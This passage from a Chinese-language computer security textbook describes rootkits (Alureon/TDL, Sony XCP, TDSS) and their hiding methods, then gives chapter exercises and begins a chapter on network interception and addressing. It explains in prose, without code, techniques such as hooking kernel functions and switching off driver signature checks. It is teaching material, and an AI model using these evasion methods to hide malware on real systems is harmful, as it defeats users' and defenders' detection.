不幸的是，这个补丁显然以一种相当戏剧性的方式干扰了恶意 Rootkit 的操作。发布补丁后，微软收到了大量用户投诉，这些用户安装补丁后突然发现他们的计算机陷入了无休止的重启循环。微软发布了如下建议：“在 32 位版本的 Microsoft Windows 上安装此更新后，您可能会在蓝屏上收到一条 Stop 错误消息，导致计算机反复重启。此问题可能是由安全更新与驻留在系统上的恶意软件之间的冲突引起的。此问题不是安全更新的质量问题，也不特定于任何 OEM。” [MIC10] 当然，那些机器已经陷入持续重启的人无法阅读微软发布的消息。

显然，在系统启动时，TDL-3 或 Alureon Rootkit 构建了一个表，使用特定 Windows 内核函数的固定地址。在微软补丁中，这些地址被更改了，因此当 TDL-3 获得控制权并尝试调用一个（真实的）内核函数时，它转移到了错误的地址，系统随即关闭，出现所谓的“蓝屏死机”（显示器在蓝色背景上显示文本错误消息并重启）。

无法知道 Alureon 或任何 Rootkit 在整个计算机群体中的普遍程度。微软接收其恶意软件删除工具从用户机器中移除的感染报告。仅在 2010 年 4 月，该工具就移除了 262,969 个 Alureon 变体实例，因此与 MS10-015 的交互可能很严重。

---

Rootkit 干扰正常系统功能以保持隐藏。正如我们所描述的，一种常见的 Rootkit 伎俩是拦截文件目录枚举函数以隐藏 Rootkit 的存在。啊，两可以玩这个游戏。假设你怀疑代码正在干扰你的文件显示程序。然后你编写一个程序来显示文件，直接检查磁盘和文件系统以枚举文件，并比较这两个结果。Rootkit 揭示器就是这样的程序。

##### Sony XCP Rootkit

一位名为 Mark Russinovich 的计算机安全专家开发了一个 **Rootkit 揭示器**，并在他的一台系统上运行。Russinovich 没有使用像文件管理器这样的高级实用程序来清点所有文件，而是编写了直接调用 `NTQueryDirectoryObject` 函数的代码。通过在他的程序中汇总文件大小，他将目录大小与文件管理器报告的大小进行了比较；差异促使他进一步调查。他惊讶地发现了一个 Rootkit [RUS05]。进一步调查后，他确定该 Rootkit 是在他加载并播放一张 Sony 音乐 CD 时安装的。普林斯顿大学的研究人员 Edward Felten 和 Alex Halderman [FEL06] 对这个名为 XCP（extended copy protection，扩展复制保护的缩写）的 Rootkit 进行了广泛检查。


# XCP 的功能

## XCP Rootkit

XCP rootkit 会在用户不知情的情况下，从索尼音乐 CD 自动安装到计算机上，以防止用户复制曲目，同时允许将 CD 作为音频播放。为此，它包含一个专用的音乐播放器，仅允许该播放器播放 CD。但 XCP 会干扰对受保护音乐 CD 的任何其他访问，它会破坏任何其他进程尝试从 CD 读取所获得的结果。也就是说，它会拦截任何读取 CD 驱动器的功能调用。如果调用源自索尼 CD 的音乐播放器，XCP 会将结果重定向到索尼的专用音乐播放器。如果调用来自针对索尼 CD 的任何其他应用程序，rootkit 会将结果打乱，使其作为音乐毫无意义，并将该不可解释的结果传递给调用应用程序。

Rootkit 必须在 CD 首次插入电脑驱动器时自行安装。为此，XCP 依赖 Windows 的一个“乐于助人”的功能：借助“自动运行”功能，Windows 会在每张新插入的 CD 上查找具有特定名称的文件，如果找到该文件，它会在用户不知情的情况下打开并执行该文件。（文件名可在 Windows 中配置，但默认为 `autorun.exe`）。您可以禁用自动运行功能；详情请参阅 [FEL06]。

XCP 必须对用户隐藏自身，以免用户直接删除或禁用它。因此，rootkit 按照我们刚才的描述运作：它会阻止显示任何名称以 `$sys$` 开头的程序（这也是它的命名方式）。不幸的是，对索尼而言，此功能不仅隐藏了 XCP，还隐藏了来自任何来源、无论恶意与否、所有以 `$sys$` 开头的程序。因此，任何病毒编写者只需将病毒命名为 `$sys$virus-1` 等，即可隐藏病毒。

索尼犯了两个错误：首先，正如我们刚才观察到的，它分发的代码无意中为毫无戒心的用户系统打开了大门，可能导致其他恶意代码编写者的代码感染系统。其次，索尼在用户不知情（更不用说未经同意）的情况下安装该代码，并采取策略防止代码被移除。

## 修补渗透

2005 年 11 月，Russinovich 描述了他的发现，XCP 的故事广为人知，多家新闻媒体对此进行了报道。面对严重的负面舆论，索尼决定发布 XCP rootkit 的卸载程序。但是，你还记得 第 3 章 中为什么“渗透和修补”作为一种安全策略被放弃了吗？除其他原因外，快速修复的压力有时会导致短视的解决方案，这些方案只解决眼前的情况，而非根本原因：修复一个故障往往会在别处引发故障。

索尼的卸载程序本身打开了严重的安全漏洞。它以网页形式呈现，下载并执行卸载程序。但程序员没有检查他们正在执行的代码，因此该网页会运行来自任何来源的任何代码，而不仅仅是预期的卸载程序。更糟糕的是，即使在卸载 XCP 后，用于执行下载和安装的代码仍保留在系统上，这意味着漏洞持续存在。（事实上，索尼使用了来自两个不同来源的两个不同的 rootkit，令人惊讶的是，这两个 rootkit 的卸载程序都存在这个相同的漏洞。）

有多少台计算机感染了此 rootkit？没人确切知道。安全研究员 Dan Kaminsky [KAM06] 在 DNS 表中发现了 500,000 条指向 rootkit 联系站点的引用，但其中一些 DNS 条目可能支持数百或数千台计算机的访问。安装了 rootkit 的计算机用户中有多少人知情？同样没人知道，也没人知道其中有多少安装可能尚未被移除。

Felten 和 Halderman [FEL06] 对此情况进行了有趣的分析，探讨了数字版权管理（音乐 CD 等数字媒体的复制保护）如何导致出现类似于恶意代码开发者的需求。Levine 等人 [LEV06] 考虑了 rootkit 行为的全部潜在范围，以此作为确定如何防御它们的方法。

自动软件更新、防病毒工具、间谍软件，甚至应用程序，都会在未经用户明确许可甚至不知情的情况下执行操作。它们有时还会合谋对抗用户：索尼与主要防病毒供应商合作，使其 rootkit 不被检测到，因为让用户不知情对他们所有人都更有利，或者说索尼和供应商是这么认为的。

## TDSS Rootkits

TDSS 是一系列 rootkit 的名称，从 TDL-1 到（目前的）TDL-4，基于 Alureon rootkit，该代码由 Symantec 于 2008 年 9 月发现。您可能还记得 侧边栏 5-7 中提到的 Alureon，它描述了 rootkit 如何阻止合法的 Microsoft 补丁被安装。TDSS 组织始于 2008 年的 TDL-1，这是一个相对基础的 rootkit，其主要功能似乎是收集和窃取个人数据。

TDL-1 似乎以隐身为主要目标，它通过对 Windows 操作系统的多项更改来实现这一点。首先，它在与每个磁盘设备访问相关的驱动程序堆栈中安装了过滤代码。这些过滤器会丢弃所有对名称以 "tdl" 开头的文件的引用，"tdl" 是 TDL 用于其所有文件的文件名前缀。有了这些过滤器，TDL-1 可以在任何磁盘卷上的任何位置安装任意数量的所需文件。此外，过滤器会阻止对任何磁盘卷的直接访问，其他过滤器则限制对网络端口的访问，所有这些都是通过安装恶意驱动程序（处理与设备通信的操作系统例程）来实现的。

Windows 注册表（关键系统信息的数据库）加载了大量条目，以便在每次系统启动时重新加载这些恶意驱动程序。TDL-1 rootkit 通过修改系统函数 `NTEnumerateKey`（用于列出注册表中的数据项（键））来隐藏这些注册表值。该修改将系统函数的前几个字节替换为一条跳转指令，以转移到 rootkit 函数，该函数在将控制权返回正常系统函数之前，会跳过所有 rootkit 键。通过插入跳转到扩展代码来修改代码称为**拼接**，以这种方式被感染的驱动程序被称为已被**挂钩**。

> **拼接**：一种允许调用第三方代码来服务中断和设备驱动程序调用的技术

2009 年初，第二个版本 TDL-2 出现。功能和操作与 TDL-1 相似，主要区别在于代码本身通过打乱、加密并填充无意义数据（如《哈姆雷特》中的单词）进行了混淆。

同年晚些时候，TDSS 开发者释放了 TDL-3。变得更加复杂，TDL-3 实现了自己的文件系统，使其能完全独立于使用 FAT（文件分配表）或 NTFS（NT 文件系统）技术管理文件的常规 Windows 函数 [DRW09]。根据 Microsoft 的 Johnson [JOH10] 的说法，rootkit 挂钩到一个方便的驱动程序，通常是 `atapi.sys`（IDE 硬盘驱动器的驱动程序），尽管它也可以挂钩到内核。此时，TDSS 开发者引入了命令与控制服务器，rootkit 与其通信以接收工作任务并返回收集的数据或其他结果。（我们将在 第 6 章 中详细探讨分布式拒绝服务，这是命令与控制服务器的另一种应用。）

### TDL-3 与 TDL-4

TDL-3 还开始使用加密通信流进行通信，有效地阻止了分析人员解读数据流。所有这些变化使得 TDSS 家族越来越难以检测。《NetworkWorld》估计，在 2009 年，有 300 万台计算机被 TDSS 控制，其中超过一半位于美国。这些受控计算机被出售或出租用于各种任务，例如发送垃圾邮件、窃取数据，或使用虚假杀毒工具欺骗用户。

但 TDL-3 并非终点。第四代 TDL-4 于 2010 年秋季出现。该版本绕过了最新的 Microsoft 安全技术。

TDL-4 遵循其他 TDSS Rootkit 的路径，通过挂钩系统驱动程序来安装自身并保持隐蔽。但在此期间，Microsoft 的 64 位 Windows 软件实施了一种加密技术，利用数字签名对每个驱动程序的一部分进行加密，正如我们在第 2 章中所解释的那样。基本上，Microsoft 的数字签名让它能够在每次加载内核级代码时（通常在系统启动时）验证其来源和完整性。TDL-4 更改了系统配置值 `LoadIntegrityCheckPolicy`，以便在不检查的情况下加载未签名的 Rootkit [FIS10a]。TDL-4 感染主引导记录 (MBR) 并替换了通常可用于调试内核级活动的内核调试器 (`kdcom.dll`)。替换后的调试器仅返回安全值（即不泄露 TDL-4 信息的值），这使得分析人员难以调查该 Rootkit 的形式和功能。

TDSS 家族的复杂程度令人惊叹，其适应系统变化（如代码完整性检查）的能力也是如此。作者投入了大量时间来维护和扩展这个 Rootkit 家族，他们很可能会继续这样做，以保护其投资的价值。

## 其他 Rootkit

并非每个 Rootkit 都是恶意的。假设你是一家处理高度敏感信息公司的经理：这可能是知识产权，以新程序的设计和实现形式存在；也可能是一些不希望其病情登上报纸头版的知名患者的医疗记录。你的员工出于日常业务职能需要在内部使用这些信息，但几乎没有任何理由让这些信息离开你的公司。

由于这些信息价值极高，你希望确保员工发送的邮件或以员工名义行事的恶意进程发送的邮件中不包含任何敏感内容。有几款产品，名为 `eBlaster` 和 `Spector`，它们是家长可以安装在孩子电脑上的 Rootkit，用于监控邮件、消息和网络搜索的性质。作为 Rootkit，这些产品对孩子不可见，即使被检测到，也难以禁用或移除。担心敏感信息非法或无意外泄的经理可以使用类似的产品。

执法机关也会在嫌疑人的机器上安装 Rootkit，以便特工追踪甚至控制受影响机器用户的行为，而嫌疑人却毫不知情。

因此，并非每个 Rootkit 都是恶意的。事实上，安全工具（如防病毒软件、入侵检测和防御系统）有时也会以隐蔽且难以禁用的方式运行，就像 Rootkit 一样。然而，因为这是一本关于计算机安全的书，我们现在回到恶意性质的 Rootkit，在考察允许引入 Rootkit 的系统漏洞时进行分析。导致 Rootkit 安装的两个漏洞是操作系统复杂且不透明。

在描述了 Rootkit 对操作系统的威胁后，我们现在转向涉及操作系统的另一个威胁来源：智能手机等移动设备。

# 5.4 结论

在本章中，我们调查了操作系统领域，以开发几个重要的安全概念。操作系统是我们第一次看到详细访问控制分析的地方，也是首次使用参考监视器的地方。

由于其在计算系统中的基础地位，操作系统不能薄弱。我们讨论了对操作系统正确性的信任和信心概念。操作系统的强度来自于其与硬件的紧密集成、其简单的设计，以及其有意或无意地专注于安全。当然，操作系统拥有在独特平台上自包含的优势。

在下一章中，我们将考虑现代计算的一个基本部分：网络。如今，很少有计算活动不涉及网络。但操作系统那种自包含、紧密集成的特性绝对不适用于网络。正如我们将展示的那样，在网络中实现身份验证和访问控制比在操作系统中更难，网络用户能拥有的自我保护程度明显低于操作系统用户。保护网络安全更具挑战性。

# 5.5 练习

**1.** 给出一个在计算环境中使用物理隔离实现安全的例子。

**2.** 给出一个在计算环境中使用时间隔离实现安全的例子。

**3.** 给出一个其敏感度可能在执行期间发生变化的对象示例。

**4.** 针对以下指控作出回应：“操作系统不需要保护其可执行代码（在内存中），因为该代码是磁盘上维护的代码的副本。”

**5.** 解释栅栏寄存器如何用于重定位用户程序。

**6.** 仅凭一对基址/界限寄存器能否保护任意数量的并发进程相互之间不受干扰？

**7.** 基址/界限寄存器的讨论暗示程序代码是仅执行的，数据区域是仅读写的。这种情况是否总是成立？请解释你的答案。

**8.** 使用标记位的设计预设相邻内存位置存放不同的内容：一行代码、一段数据、一行代码、两段数据，以此类推。大多数程序并不像那样。在程序具有更传统的代码和数据排列情况下，标记位如何能适用？

**9.** 除了常见的读、写和执行权限外，用户可能还希望对代码或数据应用哪些其他访问模式？

**10.** 如果两个用户共享对一个段的访问，他们必须通过同一个名称来访问。他们对该段的保护权限必须相同吗？为什么？

**11.** 分段或分页地址转换的一个问题是时序。假设用户想要将一些数据从输入设备读入内存。为了在数据传输期间提高效率，通常会将数据要放置的实际内存地址提供给 I/O 设备。传递真实地址是为了避免在极快的数据传输期间执行耗时的地址转换。这种方法会带来什么安全问题？

**12.** 目录也是一个应受访问控制的对象。为什么不适合允许用户修改他们自己的目录？

**13.** 为什么一个用户的目录不应该普遍对其他用户可访问（甚至不可只读访问）？

**14.** 文件访问控制主要涉及安全性的保密维度。访问控制矩阵与受控对象的完整性之间有什么关系？

**15.** 基于能力的保护系统的一个特性是一个进程将能力的副本传递给另一个进程的能力。描述一个进程应该能够将能力传递给另一个进程的情况。

**16.** 描述一种操作系统可用来强制执行有限能力传递的机制

也就是说，进程 `A` 可能会将一个能力传递给进程 `B`，但 `A` 希望阻止 `B` 将该能力传递给任何其他进程。

你的设计应包括对 `A` 和 `B` 所执行活动的描述，以及操作系统所执行的活动和维护的信息。

**17.** 列出在计算系统中使用物理分离的两个缺点。列出在计算系统中使用时间分离的两个缺点。

**18.** 解释为什么异步 I/O 活动是许多内存保护方案（包括基址/界限和分页）的一个问题。提出一个解决该问题的方案。

**19.** 提出一种维护按用户保护方案的高效机制

也就是说，系统为每个用户维护一个目录，该目录列出了该用户被允许访问的所有对象。你的设计应满足这样一个系统的需求：拥有 1000 个用户，其中在任何时刻活跃的用户不超过 20 个。每个用户平均有 200 个允许访问的对象；系统中总共有 50,000 个对象。

**20.** 许多操作系统保护系统中的一个缺陷是参数传递

通常，所有嵌套例程都使用一个公共共享栈来存放参数以及每个调用进程上下文的其余部分。

(a) 解释该缺陷带来的漏洞。

(b) 解释如何控制该缺陷。共享栈仍将用于传递参数和存储上下文。

# 6. 网络

---

本章内容：

**漏洞**

- 网络中的威胁：窃听、篡改、寻址攻击

- 无线网络：拦截、关联、`WEP`、`WPA`

- 拒绝服务和分布式拒绝服务

**防护**

- 网络加密：`SSL`、`IPsec`、虚拟专用网络

- 防火墙

- 入侵检测和防护系统

- 管理网络安全、安全信息和事件管理

---

众所周知，当今的许多计算活动都涉及与人员、计算机、进程甚至不法分子进行远程交互。你可以躲在房间里，不向外界发送或接收任何东西，但这会严重限制你能做的事情。因此，对大多数计算机用户来说，某种程度的外部连接几乎是不可避免的，问题就变成了如何以合理的安全性来实现这一点。

但一旦你决定连接到安全边界之外的节点，该连接就会离开你的保护区域，你面临着他人读取、修改甚至抹除你通信的风险。在本章中，我们将探讨远程网络中的安全性。在第 4 章中，我们研究了网络对本地用户的影响，重点关注浏览器——用户与网络之间最明显的连接。浏览器运行在用户的机器上，处于用户的控制之下，尽管我们探讨了许多浏览器似乎是在对抗用户而非为用户服务的情况。但在本章中，我们转向远程网络，用户几乎没有任何控制权的期望，因此安全风险巨大。

本章涵盖了网络安全的两个方面：威胁和对策。因此，我们将本章分为两部分，以帮助你查找和消化主题，并强调这两个领域的区别。当然，这两部分相辅相成，对于真正理解网络安全而言，两者缺一不可。

在本章中，我们首先简要回顾网络术语和概念。在介绍完背景知识后，我们开启本章的第一部分：威胁。正如你所见，针对网络的威胁源于我们在第 1 章中介绍的四种基本威胁类型：截获、篡改、伪造或插入，以及中断。我们在无线网络的背景下考察这些威胁，这项技术通过咖啡店、大学校园、机场和企业环境中的 WiFi 热点变得普及；许多接入点都是免费的。但当你连接到一个免费接入点时，你拥有什么样的安全性？（云计算中也会出现类似的问题，我们将在第 8 章中探讨该主题。）接下来我们讨论拒绝服务攻击，在这种攻击中，合法用户的网络使用受到严重限制甚至完全切断；这种攻击是网络特有的。

本章的第二部分介绍了应对网络威胁的三种重要方法。我们重温了我们的主力工具——密码学，展示它如何保护网络通信的机密性和完整性。然后，我们介绍两项可以帮助保护用户免受网络危害的技术：防火墙和入侵检测与防护系统。我们以管理网络安全的技术和技术作为本章的结语。

## 6.1 网络概念

网络比本地计算装置稍微复杂一些。简单来说，我们可以将本地环境视为一组组件——计算机、打印机、存储设备等——和导线。导线是点对点的，端点之间基本没有泄漏，尽管窃听允许任何有权访问导线的人拦截、修改甚至阻断传输。在本地环境中，物理导线通常受到物理保护，或者可能通过视觉监控得到保护，因此窃听不是主要问题。对于远程通信，同样的“导线”概念适用，但导线不在用户的控制和保护之下，因此篡改传输构成严重威胁。该威胁的性质部分取决于这些“导线”的介质，介质可以是金属线、玻璃纤维，或无线电通信等电磁信号。稍后我们将探讨不同种类的通信介质。

将注意力重新集中在带有导线的本地环境上，每对设备之间有一根导线，要将数据从一台设备发送到另一台设备，发送方只需使用通往目标的那根导线即可。而在远程网络中，通常发送方没有通往每个可能接收方的导线，因为导线的数量将变得难以管理。取而代之的是，正如你可能知道的，发送方在数据前加上本质上相当于邮寄标签的东西，一个标记显示将数据传输到何处（通常也包括从何处）。在传输路径上的各个节点，设备检查标签以确定该设备是否为预期接收方，如果不是，则确定如何转发数据以使其更接近目的地。这种标签处理称为路由。路理由计算机实现，正如你已知，计算机程序容易受到无意和恶意故障的影响。在本节中，我们还将考虑路由易受哪些威胁。

### 背景：网络传输介质

当数据项离开受保护环境时，途中的其他人可以查看或 `intercept`（拦截）数据；其他使用的术语包括 `eavesdrop`（窃听）、`wiretap`（窃听/侧录）或 `sniff`（嗅探）。如果你对远处的朋友大喊大叫，你会意识到周围的人能听到你说什么。数据也是如此，数据既可以在广域网中远程被拦截，也可以在局域网 (LAN) 中本地被拦截。数据通信要么通过有线传输，要么通过无线传输，两者都脆弱，攻击的难易程度各不相同。拦截的性质取决于介质，我们接下来将进行描述。在阅读此解释时，也请思考我们稍后将描述的篡改和阻断攻击。

---

**信号拦截是一个严重的潜在网络漏洞。**

---

#### 电缆


# 在最本地的层面上

在最本地的层面上，以太网或其他局域网中的所有信号都在电缆上可用，任何人都可以拦截。每个局域网连接器（如计算机板卡）都有一个唯一的地址，称为 `MAC`（介质访问控制）地址；每块板卡及其驱动程序都被编程为用其唯一地址标记来自其主机的所有数据包（作为发送方的“返回地址”），并且仅从网络中取出那些寻址给其主机的数据包。

## 数据包嗅探

仅移除那些寻址给特定主机的数据包主要是一种礼貌问题；几乎没有什么能阻止程序在每个数据包经过时对其进行检查。一种称为**数据包嗅探器**的设备可检索其局域网上的所有数据包。或者，可以将其中一块接口卡重新编程，使其拥有局域网上另一张现有卡的所谓唯一 `MAC` 地址，从而导致两张不同的卡都会获取寻址给该地址的数据包。（为了避免被发现，流氓卡必须将其拦截的数据包副本放回网络。）幸运的是（暂时），有线局域网通常仅用于相对友好的环境中，因此这类攻击发生得不频繁。

## 辐射

狡猾的攻击者可以利用导线的特性，在无需任何物理操作的情况下读取数据包。普通导线（以及许多其他电子元件）会发射辐射。通过一种称为**电感耦合**的过程，入侵者可以窃听导线并读取辐射信号，而无需与电缆进行物理接触；本质上，入侵者将天线靠近电缆，拾取通过导线的信号的电磁辐射。（请阅读侧边栏 6-1 了解此类辐射拦截的一些示例。）电缆的电感耦合信号传播距离很短，并且可以被其他导电材料屏蔽，因此攻击者可以通过用更多导线包裹电缆，并可能通过包裹的导线发送其他干扰信号来挫败电感耦合窃听。拾取信号所需的设备廉价且易于获取，因此电感耦合威胁是基于电缆网络的一个严重担忧。要使攻击奏效，入侵者必须相当接近电缆；因此，这种形式的攻击仅限于具有物理访问权限的情况。

***

### 侧边栏 6-1 电磁辐射

电子设备的电磁泄漏是一种已知现象，已被研究数十年。军事专家担心对手能够从诸如键盘按键产生的电脉冲或显示视频屏幕图像的电路磁辐射等来源拦截敏感信息。拦截此类数据需要能够检测低电平信号微小变化的复杂电子设备；因此，这些技术主要适用于军事等极高价值的场景。

由于军方是主要受影响目标，该领域的大量研究并不公开。两位乌克兰研究人员 `N.N. Gorobets` 和 `A.V. Trivaylo` 发表了 [[GOR09]](#bib01.html#bib_238) 该领域一些近期公开研究的结果。

他们考察了当前技术：平板显示器。传统观点认为，老式阴极射线管（`CRT`）显示器会发射可检测的信号，但较新的平板液晶显示器（`LCD`）是“安全的”。相反，研究人员报告称，接口和显示器的某些技术特性可能使 `LCD` 比 `CRT` 更容易被攻破。研究人员展示了一个从 10 米（30 英尺）外、隔着两个办公室拦截测试数据的示例。

他们还报告了涉及键盘的实验。使用不同的技术，`Gorobets` 和 `Trivaylo` 从 5 到 8 米（大约 15 到 25 英尺）的距离恢复了键盘信号。

这些距离足够小，以至于大多数办公室、实验室或政府机构的计算机可能不面临外部人员拦截数据的重大风险。在这些距离下，攻击者必须就在大楼外（处于一个相当暴露的位置）或走廊对面，这两个位置都会引来“究竟你在干什么？”之类的询问。然而，咖啡厅、候诊室、甚至酒店房间和会议设施中的人们应该意识到，他们的计算机信号隐私无法得到保障。坐在隔壁桌的人是在浏览网页还是在拦截你的按键？我们不应忽视远程窃听的潜在漏洞。

***

## 电缆拼接

如果攻击者离得不够近，无法利用电感耦合，则可能需要采取更具破坏性的措施。拦截电缆最简单的形式是直接切断。如果电缆被切断，其上的所有服务都将停止。作为维修的一部分，攻击者可以拼接一条辅助电缆，使其接收主电缆上所有信号的副本。拦截者可以稍微隐蔽一些，但仍能达到相同的目的。例如，攻击者可能小心地暴露部分外层导体并连接，然后小心地暴露部分内层导体并连接。这两种操作都会改变电缆的电阻，称为阻抗。在第一种情况下，维修本身就会改变阻抗，阻抗变化可以解释为（或掩饰为）维修的一部分。在第二种情况下，稍微施展一点社会工程学就可以解释这种变化。（“你好，我是 `Bignetworks` 的技术员 `Matt`。我们这边正在更换一些设备，所以你可能会注意到阻抗的变化。”）

有些局域网拥有一组固定的设备，极少变动；而其他局域网则频繁地添加和移除设备，以至于变动并非例外事件。在办公室里，员工开启整晚关闭的工作站，来访员工将笔记本电脑连接到网络，技术人员添加和移除监控设备以维护网络。增加一个设备可能不会被注意到。攻击者只需找到一个未使用的网络连接点并插入即可。

另一种从局域网拦截的方法是找到配线间或配线架，即网络所有导线汇聚的地方，网络管理员可以从重新配置局域网的拓扑结构，例如，通过交换机路由一组导线以创建一个单独的子网。通过一种称为**嗅探器**的设备，某人可以连接到网络并拦截其上的所有流量；嗅探器可以捕获并保留数据，或将其转发到另一个网络。

网络上的信号是复用的，意味着在给定时间传输多个信号。例如，两个模拟（声音）信号可以组合，就像音乐和弦中的两个音调；两个数字信号可以通过交织组合，就像洗牌。局域网传输离散的数据包，但广域网上的数据在离开发送主机时可能被大量复用。因此，广域网上的窃听者不仅需要能够拦截所需的通信，还需要能够将其从与其复用的其他通信中提取出来。虽然这可行，但所涉及的工作量意味着该技术将很少被使用。

## 光纤

与其他传输介质相比，光纤提供了两个显著的安全优势。首先，每次建立新连接时，整个光网络都必须仔细调谐。因此，没有人能在不被发现的情况下窃听光系统。剪断一捆光纤中的一根就会破坏网络的平衡。

其次，光纤传输光能，而非电能。光不像电那样产生磁场。因此，在光纤电缆上进行电感耦合窃听是不可能的。

仅使用光纤并不能保证安全，就像仅使用加密也不能保证安全一样。电缆沿线的中继器、接头和分接点是数据可能比在光纤电缆本身中更容易获取的地方。从计算设备到光纤的连接也可能是渗透点。光纤本身比电缆安全得多，但它也有漏洞。

因此，物理电缆容易受到一系列拦截威胁。但实施此类入侵需要物理接触承载相关通信的电缆之一，这绝非易事。在许多情况下，从空中获取数据更容易，我们接下来将对此进行描述。

## 微波

微波信号不是沿着导线传输的；它们通过空气广播，使得外部人员更容易访问。微波是一种视线传播技术；接收器需要位于发送器信号的无阻挡视线上。通常，发射器的信号聚焦在其对应的接收器上，因为微波接收要求发送方和接收方之间有清晰的空间。为了确保击中接收器，信号路径相当宽，如图 6-1 所示。从安全角度来看，这种宽阔的传播范围是对恶意行为的邀请。不仅可以通过干扰发送方和接收方之间的视线来拦截微波传输，还可以从位于略微偏离直接焦点的天线上接收整个传输。


**图 6-1** 微波传输拦截

微波信号通常没有屏蔽或隔离以防止拦截。因此，微波是一种不安全的介质，因为信号暴露无遗。然而，由于微波链路承载大量业务，拦截者不太可能将单个传输从与其交织在一起的所有其他传输中分离出来。仅承载一个组织通信的私有微波链路，并没有得到业务量的很好保护。

微波信号需要真正的可见对齐，因此在多山地形中用途有限。此外，由于地球曲率干扰传输，微波信号必须被接收并中继以跨越长距离，这使得长距离通信（例如跨洋通信）变得复杂。这些限制的解决方案令人惊讶地是卫星。

## 卫星通信

信号可以反射自卫星：从地球到卫星，再从卫星返回地球。发送方和接收方是固定点；发送方将信号跨越卫星所在的宽广区域发射，卫星将该信号重新广播到接收方周围一定半径范围内。卫星位于与地球轨道同步的轨道上，因此它们相对于地球似乎处于固定点。

发送到卫星的传输可以覆盖卫星周围的宽广区域，因为附近没有其他东西来接收信号。然而，在返回地球时，宽广的传播半径（称为广播的覆盖范围）允许范围内的任何天线在不被发现的情况下获取信号，如图 6-2 所示。不同的卫星具有不同的特性，但某些信号可以在宽达数百英里、长达数千英里的区域内被拦截。因此，因处于信号路径中而被拦截的可能性甚至大于微波信号。然而，由于卫星通信通常经过大量复用，任何单个通信被拦截的风险很小。


**图 6-2** 卫星通信

总之，网络流量在许多点上都可供拦截者获取。图 6-3 说明了通信从源头到目的地是如何暴露的。我们在表 6-1 中总结了不同通信介质的优缺点。


**图 6-3** 暴露的通信


**表 6-1** 通信介质的优缺点

***

**所有网络通信都可能暴露于拦截；因此，敏感信号必须受到保护。**

***

从安全角度来看，你应该假设网络节点之间的*所有*通信链路都可能被破坏。正如侧边栏 6-2 所示，甚至眼球也可能无意中传递数据。因此，商业网络用户采用加密来保护其通信的机密性，我们将在本章后面演示这一点。本地网络通信可以加密，尽管出于性能原因，最好用强大的物理和管理安全来保护本地连接。

***

### 侧边栏 6-2 镜子，镜子，在我的屏幕上

研究员 `Michael Backes` 发现许多表面都可以反射图像。我们当然知道镜子和闪亮的金属物体。但研究员 `Backes` 尝试了眼镜（他发现效果很好）、陶瓷咖啡杯、珠宝，甚至个人的眼球。

作为马克斯·普朗克软件系统研究所的教授，`Backes` 在经过一个房间时得到了灵感，他的研究生正在电脑上专心敲击。想知道他们在忙什么，他注意到一名学生桌上的茶壶上反射着屏幕的蓝色图像。第二天，他带着望远镜和相机出现并开始了研究，正如《科学美国人》 `GIB09` 所报道的。使用一台强大的业余级望远镜，他在 10 米（30 英尺）外对准反射物体，并读取了电脑屏幕的内容，*即使屏幕背对着望远镜*。

他应用了数学和天文学的技术来清晰图像，使他能从 10 米外读取 36 号字体（大约是本段落字体大小的三倍），但他认为用更复杂的设备可以显著改善这一结果。其他照片增强软件也应该能清晰图像，他认为。他警告说，如果这些攻击对像他这样的业余爱好者都是可行的，专业的攻击者可能做得更好。

也许“我能看透你的想法”这句话比我们想象的更真实。

***

侵入通信介质或从中拦截只是攻击网络的一种方式。完整性和可用性威胁也同样适用。寻址和路由也是脆弱性的富矿。在下一节中，我们将介绍具有安全含义的基本网络寻址概念。

# 背景：协议层

网络通信是通过一个称为开放系统互联（或 `OSI`）模型的虚拟概念来执行的。这个七层模型从准备要通过网络传输的数据的应用程序开始。数据向下移动通过各层，被转换和重新打包；在较低层，控制信息被添加在首部和尾部中。最后，数据准备好在物理介质上传输，例如电缆，或通过空气在微波或卫星链路上传输。

***

**`OSI` 模型在概念上最有用，它描述了发送方和接收方的类似过程。**

***

在接收端，数据进入模型的底部，并向上通过各层，控制信息被检查和移除，数据被重新格式化。最后，数据到达模型顶层的接收方应用程序。这种通信如图 6-4 所示。


**图 6-4** `OSI` 模型

拦截可能发生在该模型的任何层级：例如，应用程序可能隐蔽地泄露数据，正如我们在第 3 章所述；物理介质可能被窃听，正如本章所述；或者两个子网之间的会话可能被攻破。

# 背景：寻址与路由

如果数据要从 A 点传输到 B 点，这两点之间必须存在某种路径。一种显而易见的方式是直接连线。对于两个已知点之间频繁、大量的传输，确实会使用专用链路。在城镇两侧设有办公室的公司可能会采购自己的专用连接。然而，这种专用连接会成为单点故障，因为如果该线路因任何原因失效，两个办公室将失去连接，而可靠的连接正是专用线路存在的全部理由。

显然，直接连接仅适用于少数参与方。让每个互联网用户都拥有通往其他每个用户的专用线路是不可行的。出于可靠性和规模的考虑，互联网和大多数其他网络类似于网状结构，数据沿着从源到目的地的路径被中继传输。

## 协议

当我们使用网络时，通信介质通常对我们是透明的。也就是说，我们大多数人不知道通信是通过铜线、光纤、卫星、微波还是它们的某种组合进行的。事实上，通信介质可能从一次传输到下一次传输发生变化。这种不确定性实际上是网络的一个*积极特性*：其*独立性*。也就是说，通信与实际通信介质分离开来。独立性之所以成为可能，是因为我们定义了**协议**，允许用户在一个高层、抽象的通信层面查看网络（从用户和数据的角度查看）；通信*如何*实现的细节被隐藏在两端的软件和硬件中。软件和硬件使我们能够根据**协议栈**（通信的分层架构）实现网络；我们在本章前面描述了 `OSI` 协议模型。栈中的每一层都很像一种语言，用于传达与该层相关的信息。

协议是两台计算机如何交互的语言或约定集合。一个简单的协议可完成电子邮件传输。本质上，发送方的计算机联系接收方的计算机并说：“我有邮件给您的用户 `Dmitri`。”接收方的计算机回复接受传输，发送方发送邮件，然后发送完成通知以指示传输结束。当然，此概述省略了关键细节。

## 寻址

但发送方如何联系接收方？假设您的消息寄给 `yourfriend@somewhere.net`。此表示法意味着“`somewhere.net`”是目标主机的名称（更准确地说，是目标网络的名称）。在网络层，一种称为**路由器**的硬件设备实际上将消息从您的网络发送到 `somewhere.net` 网络上的路由器。网络层添加两个首部，以显示您计算机的地址作为源地址，`somewhere.net` 的地址作为目的地址。从逻辑上讲，您的消息准备从您的机器移动到您的路由器，再到您朋友的路由器，最后到您朋友的计算机。（实际上，两个路由器之间可能还有许多其他路由器，构成从您到您朋友的网络路径。）连同目的地址、源地址和数据在内的网络层结构称为**分组**。基本的网络层协议转换如图 6-5 所示。


**图 6-5** 网络层转换

***

**分组：传输的最小独立可寻址数据单元**

***

